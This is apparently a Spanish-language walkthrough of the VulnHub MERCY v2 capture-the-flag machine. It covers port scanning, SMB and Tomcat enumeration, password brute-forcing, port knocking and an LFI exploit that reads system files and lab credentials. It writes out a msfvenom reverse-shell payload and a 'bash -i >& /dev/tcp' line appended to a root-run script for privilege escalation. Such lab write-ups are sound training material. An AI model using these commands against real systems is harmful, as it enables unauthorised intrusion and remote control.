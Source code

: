 # MERCYv2
Desarrollo del CTF MERCERY V2


## 1. Configuración de la VM

- Download: https://www.vulnhub.com/entry/digitalworldlocal-mercy-v2,263/

## 2. Escaneo de Puertos

```
nmap -n -P0 -p- -sC -sV -O -T5 -oA full 10.10.10.143
Nmap scan report for 10.10.10.143
Host is up (0.00078s latency).
Not shown: 65525 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   filtered ssh
53/tcp   open     domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu
80/tcp   filtered http
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: CAPA SASL AUTH-RESP-CODE RESP-CODES PIPELINING UIDL TOP STLS
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open     imap        Dovecot imapd (Ubuntu)
|_imap-capabilities: more IMAP4rev1 ID have LITERAL+ Pre-login post-login LOGIN-REFERRALS listed capabilities OK LOGINDISABLEDA0001 IDLE ENABLE SASL-IR STARTTLS
445/tcp  open     netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open     ssl/imaps?
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
995/tcp  open     ssl/pop3s?
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
8080/tcp open     http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry 
|_/tryharder/tryharder
|_http-title: Apache Tomcat
MAC Address: 00:0C:29:0E:13:4F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2h39m58s, deviation: 4h37m07s, median: 0s
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: mercy
|   NetBIOS computer name: MERCY\x00
|   Domain name: \x00
|   FQDN: mercy
|_  System time: 2021-03-22T01:34:28+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-21T17:34:28
|_  start_date: N/A
```

- Llama la atención TCP/80 y TCP/22 que aparecen como FILTERED. Un probable PORT KNOCKING.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy1.jpg" width=80% />


## 3. Enumeración

- Iniciamos la enumeración. Los puertos IMAP y POP3 no me brindó información importante.

### 3.1. Enumeración NETBIOS

- Identificamos la carpeta QIU compartida en el servidor.

```
root@kali:~/MERCY# smbclient -L \\10.10.10.143 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	qiu             Disk      
	IPC$            IPC       IPC Service (MERCY server (Samba, Ubuntu))

```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy2.jpg" width=80% />

- El ENUM4LINUX nos brinda información interesante de usuarios (el resultado es muy grande, coloco lo mas importante)

```
 ============================= 
|    Users on 10.10.10.143    |
 ============================= 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: pleadformercy	Name: QIU	Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: qiu	Name: 	Desc: 

user:[pleadformercy] rid:[0x3e8]
user:[qiu] rid:[0x3e9]
	User Name   :	qiu
	Full Name   :	
	Home Drive  :	\\mercy\qiu
	Dir Drive   :	
	Profile Path:	\\mercy\qiu\profile
  
  User Name   :	pleadformercy
	Full Name   :	QIU
	Home Drive  :	\\mercy\pleadformercy
	Dir Drive   :	
	Profile Path:	\\mercy\pleadformercy\profile

S-1-22-1-1002 Unix User\thisisasuperduperlonguser (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.

S-1-22-1-1003 Unix User\fluffy (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy3.jpg" width=80% />

> En resumen tenemos: 04 usuarios identificados (qiu, pleadformercy, thisisasuperduperlonguser, fluffy) y una carpeta compartida (qiu).


### 3.2. Enumeración de TOMCAT

- Buscamos archivos en el servidor web TOMCAT.

```
root@kali:~/MERCY# nikto -h http://10.10.10.143:8080/ 

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        8080
+ Start Time:         2021-03-21 15:55:31 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ 8170 requests: 0 error(s) and 13 item(s) reported on remote host
```

- Encontramos el archivo robots.txt, dentro un mensaje en BASE64. 

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy4.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy5.jpg" width=80% />

- El mensaje nos indica que han encontrado contraseñas del tipo "password". Una pista.

- También identificamos carpetas por defecto en TOMCAT. Nada importante.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy6.jpg" width=80% />

## 4. Explotando la Vulnerabilidad

- Tenemos 04 usuarios y el posible uso de la contraseña "password". Tenemos varios protocolos donde probar: TOMCAT MANAGER, SMB, IMAP, POP3.

### 4.1. Acceso por SMB

```
root@kali:~/MERCY# hydra -V -L users.txt -P pass.txt smb://10.10.10.143
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-22 19:49:49
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 12 login tries (l:4/p:3), ~12 tries per task
[DATA] attacking smb://10.10.10.143:445/
[ATTEMPT] target 10.10.10.143 - login "qiu" - pass "password" - 1 of 12 [child 0] (0/0)
[445][smb] host: 10.10.10.143   login: qiu   password: password
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "password" - 4 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "password123" - 5 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "P@ssw0rd" - 6 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "thisisasuperduperlonguser" - pass "password" - 7 of 12 [child 0] (0/0)
[445][smb] Host: 10.10.10.143 Account: thisisasuperduperlonguser Error: Invalid account (Anonymous success)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "password" - 10 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "password123" - 11 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "P@ssw0rd" - 12 of 12 [child 0] (0/0)
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy7.jpg" width=80% />


- Identificamos los accesos qiu:user, vamos a probar el acceso a la carpeta qiu que habiamos identificado en la enumeración.

```
root@kali:~/MERCY# smbmap -H 10.10.10.143 -u qiu -p password -R qiu
[+] IP: 10.10.10.143:445	Name: 10.10.10.143                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	qiu                                               	READ ONLY	
	.\qiu\*
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	.
	dr--r--r--                0 Mon Nov 19 11:59:09 2018	..
	fr--r--r--             3637 Sun Aug 26 09:19:34 2018	.bashrc
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	.public
	fr--r--r--              163 Fri Aug 31 15:11:34 2018	.bash_history
	dr--r--r--                0 Fri Aug 31 14:22:05 2018	.cache
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	.private
	fr--r--r--              220 Sun Aug 26 09:19:34 2018	.bash_logout
	fr--r--r--              675 Sun Aug 26 09:19:34 2018	.profile
	.\qiu\.public\*
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	dr--r--r--                0 Sun Aug 26 10:24:21 2018	resources
	.\qiu\.public\resources\*
	dr--r--r--                0 Sun Aug 26 10:24:21 2018	.
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	..
	fr--r--r--               54 Sun Aug 26 10:24:21 2018	smiley
	.\qiu\.cache\*
	dr--r--r--                0 Fri Aug 31 14:22:05 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	fr--r--r--                0 Fri Aug 31 14:22:05 2018	motd.legal-displayed
	.\qiu\.private\*
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	dr--r--r--                0 Thu Aug 30 12:36:50 2018	opensesame
	fr--r--r--               94 Sun Aug 26 10:22:35 2018	readme.txt
	dr--r--r--                0 Mon Nov 19 12:01:09 2018	secrets
	.\qiu\.private\opensesame\*
	dr--r--r--                0 Thu Aug 30 12:36:50 2018	.
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	..
	fr--r--r--              539 Thu Aug 30 12:39:14 2018	configprint
	fr--r--r--            17543 Fri Aug 31 15:11:56 2018	config
```

- Dentro de la carpeta PRIVATE y OPENSESAME hay un archivo CONFIG interesante. Contiene la configuración de un PORT NOCK.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy8.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy9.jpg" width=80% />

### 4.2. Abiendo los puertos PORT NOCK

- Vamos abrir los puertos TCP/80 y TCP/22.

```
root@kali:~/MERCY# knock 10.10.10.143 159 27391 4
root@kali:~/MERCY# knock 10.10.10.143 17301 28504 9999
root@kali:~/MERCY# nmap -n -P0 -p 22,80 -sV 10.10.10.143
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 20:05 EDT
Nmap scan report for 10.10.10.143
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:0E:13:4F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy10.jpg" width=80% />


### 4.3. Enumeración de TCP/80 

- Nos toca enumerar nuevamente, esta vez con el puerto TCP/80 abierto. GOBUSTER, DIRSEARCH y NIKTO, lo básico.

```
root@kali:~/MERCY/autorecon2/10.10.10.143/scans# cat tcp_80_http_gobuster.txt 
/.hta (Status: 403) [Size: 283]
/.hta.txt (Status: 403) [Size: 287]
/.hta.html (Status: 403) [Size: 288]
/.hta.php (Status: 403) [Size: 287]
/.hta.asp (Status: 403) [Size: 287]
/.hta.aspx (Status: 403) [Size: 288]
/.hta.jsp (Status: 403) [Size: 287]
/.htaccess (Status: 403) [Size: 288]
/.htaccess.html (Status: 403) [Size: 293]
/.htaccess.php (Status: 403) [Size: 292]
/.htaccess.asp (Status: 403) [Size: 292]
/.htaccess.aspx (Status: 403) [Size: 293]
/.htaccess.jsp (Status: 403) [Size: 292]
/.htaccess.txt (Status: 403) [Size: 292]
/.htpasswd (Status: 403) [Size: 288]
/.htpasswd.txt (Status: 403) [Size: 292]
/.htpasswd.html (Status: 403) [Size: 293]
/.htpasswd.php (Status: 403) [Size: 292]
/.htpasswd.asp (Status: 403) [Size: 292]
/.htpasswd.aspx (Status: 403) [Size: 293]
/.htpasswd.jsp (Status: 403) [Size: 292]
/index.html (Status: 200) [Size: 90]
/index.html (Status: 200) [Size: 90]
/login.html (Status: 200) [Size: 67]
/robots.txt (Status: 200) [Size: 50]
/robots.txt (Status: 200) [Size: 50]
/server-status (Status: 403) [Size: 292]
/time (Status: 200) [Size: 79]


root@kali:~/MERCY/autorecon2/10.10.10.143/scans# cat tcp_80_http_nikto.txt 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        80
+ Start Time:         2021-03-21 15:54:54 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3268: /mercy/: Directory indexing found.
+ Entry '/mercy/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Cookie stylesheet created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.25
+ Entry '/nomercy/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 5a, size: 5745661f170dc, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.html: Admin login page/section found.
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy11.jpg" width=80% />

- Encontramos lo siguiente: robots.txt, la carpeta /mercy/ y /nomercy/, la fecha en /time

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy12.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy13.jpg" width=80% />


### 4.3. Explotando RIPS

- Aunque era algo casi obvio, lo mas probable era que RIPS (la aplicacion en la carpeta /nomercy/) tuviera alguna vulnerabilidad.
- Buscamos en EXPLOIT-DB.COM e identificamos un LFI (Local File Inclusion).

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy14.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy15.jpg" width=80% />

```
<? root:x:0:0:root:/root:/bin/bash
<? daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<? bin:x:2:2:bin:/bin:/usr/sbin/nologin
<? sys:x:3:3:sys:/dev:/usr/sbin/nologin
<? sync:x:4:65534:sync:/bin:/bin/sync
<? games:x:5:60:games:/usr/games:/usr/sbin/nologin
<? man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<? lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<? mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<? news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
<? uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<? proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
<? www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<? backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<? list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<? irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
<? gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
<? nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
<? libuuid:x:100:101::/var/lib/libuuid:
<? syslog:x:101:104::/home/syslog:/bin/false
<? landscape:x:102:105::/var/lib/landscape:/bin/false
<? mysql:x:103:107:MySQL Server,,,:/nonexistent:/bin/false
<? messagebus:x:104:109::/var/run/dbus:/bin/false
<? bind:x:105:116::/var/cache/bind:/bin/false
<? postfix:x:106:117::/var/spool/postfix:/bin/false
<? dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
<? dovecot:x:108:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
<? dovenull:x:109:120:Dovecot login user,,,:/nonexistent:/bin/false
<? sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
<? postgres:x:111:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
<? avahi:x:112:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
<? colord:x:113:124:colord colour management daemon,,,:/var/lib/colord:/bin/false
<? libvirt-qemu:x:114:108:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
<? libvirt-dnsmasq:x:115:125:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
<? tomcat7:x:116:126::/usr/share/tomcat7:/bin/false
<? pleadformercy:x:1000:1000:pleadformercy:/home/pleadformercy:/bin/bash
<? qiu:x:1001:1001:qiu:/home/qiu:/bin/bash
<? thisisasuperduperlonguser:x:1002:1002:,,,:/home/thisisasuperduperlonguser:/bin/bash
<? fluffy:x:1003:1003::/home/fluffy:/bin/sh 
```

- Toca automatizar la búsqueda de información importante a través de LFI. Desde el inicio el TOMCAT me parecia una manera de ganar acceso a través de TOMCAT MANAGER.
- Busqué la RUTA por defecto del archivo de configuración del TOMCAT MANAGER y encontré la contraseña.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy16.jpg" width=80% />


### 4.4. Accediendo a TOMCAT MANAGER

- Colocamos las credenciales en http://10.10.10.143:8080/manager/html thisisasuperduperlonguser:heartbreakisinevitable

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy17.jpg" width=80% />

- Subimos nuestra webshell y obtenemos conexión reversa.

```
root@kali:~/MERCY# msfvenom -p java/shell/reverse_tcp LHOST=10.10.10.133 LPORT=443 -f war -o reverse.war
Payload size: 6252 bytes
Final size of war file: 6252 bytes
Saved as: webshell.war
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy18.jpg" width=80% />


## 5. Elevando Privilegios

- Toca buscar con paciencia. No olvidemos las contraseñas que hemos obtenido hasta ahora:


| Usuario | Password |
| -- | -- | 
| thisisasuperduperlonguser|heartbreakisinevitable |
| fluffy|freakishfluffybunny |
| qiu|password |

- Después de haber buscado un largo momento y haber probado diferentes técnicas, encontré un archivo importante con MUCHOS PERMISOS y que le pertenece al usuario ROOT.
- Ingresamos con el usuario fluffy:freakishfluffybunny y encontramos el archivo TIMECLOCK

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy19.jpg" width=80% />

- El archivo TIMECLOCK es un archivo que escribe la hora en el servidor web. Aunque busqué en los archivos CRONTAB y no encontré nada, era evidente que se ejecutaba periodicamente y con privilegios de ROOT.

```
fluffy@MERCY:~/.private/secrets$ cat timeclock
cat timeclock
#!/bin/bash

now=$(date)
echo "The system time is: $now." > ../../../../../var/www/html/time
echo "Time check courtesy of LINUX" >> ../../../../../var/www/html/time
chown www-data:www-data ../../../../../var/www/html/time
```

- Ya que tenemos permisos para editarlo, vamos a modificarlo para obtener una conexión reversa con privilegios de ROOT.

```
fluffy@MERCY:~/.private/secrets$ echo "bash -i >& /dev/tcp/10.10.10.133/666 0>&1" >> timeclock
" >> timeclock>& /dev/tcp/10.10.10.133/666 0>&1 
fluffy@MERCY:~/.private/secrets$ cat timeclock
cat timeclock
#!/bin/bash

now=$(date)
echo "The system time is: $now." > ../../../../../var/www/html/time
echo "Time check courtesy of LINUX" >> ../../../../../var/www/html/time
chown www-data:www-data ../../../../../var/www/html/time
bash -i >& /dev/tcp/10.10.10.133/666 0>&1
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy20.jpg" width=80% />



